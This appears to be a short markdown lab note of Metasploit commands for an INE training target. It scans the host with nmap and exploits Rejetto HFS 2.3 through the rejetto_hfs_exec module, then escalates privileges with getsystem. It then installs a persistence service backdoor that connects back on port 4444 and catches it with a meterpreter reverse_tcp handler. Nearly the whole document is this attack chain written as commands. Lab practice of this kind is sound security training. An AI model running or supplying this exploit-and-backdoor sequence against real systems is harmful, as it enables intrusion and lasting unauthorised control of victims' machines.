





# Metasploit

### Exploit System

```
nmap -sV -sC -p- demo.ine.local
```



```
searchsploit hfs 2.3
```



Exploit the system
```
msfconsole
search rejetto
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS demo.ine.local
exploit
getsystem
```


### Install Persistent Backdoor

Hacked machine will continually try to connect back to host at port 4444

```
background
search persistence
use exploit/windows/local/persistence_service
set SESSION 1
exploit
```


### Test Backdoor

Delete all sessions
```
background
sessions -K
```

Connect to backdoor
```
use exploit/multi/handler
set LHOST 0.0.0.0
set PAYLOAD windows/meterpreter/reverse_tcp
```



